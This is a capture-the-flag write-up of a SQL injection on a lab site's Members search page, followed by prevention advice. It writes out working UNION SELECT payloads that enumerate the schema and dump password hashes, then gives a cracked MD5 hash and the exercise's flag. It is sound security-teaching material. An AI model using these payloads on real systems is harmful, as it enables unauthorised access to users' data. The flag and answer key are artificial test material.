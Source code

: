 # SQL Injection: Members Page Vulnerability

## Overview

A SQL Injection vulnerability found on the Members page allows attackers to exploit weak input validation and extract sensitive data.

---

## Discovery & Exploitation

### 1. Confirm the Vulnerability
- i.e. input in search: `1' OR TRUE`
- Result: With single quote did not work. After trying different SQL Payloads

- Input in search: `1 OR TRUE`
- Result: Returns all members, confirming SQL injection.

### 2. Extract DB and Table Info
- Query: `-1 union select database(), user()`
- Result: Reveals DB name and user.

- Query: `-1 UNION SELECT 1,table_name FROM information_schema.tables `
- Result: Reveals all Table names

### 3. Enumerate Structure
- Query: `-1 UNION SELECT table_name, column_name FROM information_schema.columns`
- Result: Lists table/column names (e.g., `users`, `user_id`, `first_name`, `Commentaire`, `countersign`, etc.)

### 4. Dump User Data
- Query: `-1 UNION SELECT concat(Commentaire, countersign), concat(user_id,first_name,last_name, country,town,planet) FROM users`
- Result: Exposes sensitive data, including password hashes and hints.

### 5. Crack the Flag
- Extract hash: `5ff9d0165b4f92b14994e5c685cdce28`
- MD5 decrypt: `FortyTwo` (use [dcode.fr](https://www.dcode.fr/md5-hash) or [crackstation.net](https://crackstation.net) to decode MD5)
- Lowercase: `fortytwo`
- Get SHA-256:
    ```bash
    echo -n 'fortytwo' | sha256sum
    ```
- Flag: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

---

## Prevention

1. **Parameterized Queries**
    ```php
    $stmt = $db->prepare("SELECT * FROM users WHERE id = ?");
    $stmt->bind_param("i", $user_id);
    ```
2. **Input Validation**
    ```php
    if (!is_numeric($user_id)) { exit("Invalid input"); }
    ```
3. **Database Security**
    - Use least-privilege DB accounts
    - Hide error messages
    - Monitor activity

4. **Web Application Firewall**
    - Deploy a WAF to block common attacks

5. **Regular Security Testing**
    - Run frequent scans and penetration tests

---

> Weak input validation can lead to full data exposure. Always use secure coding practices to protect your applications.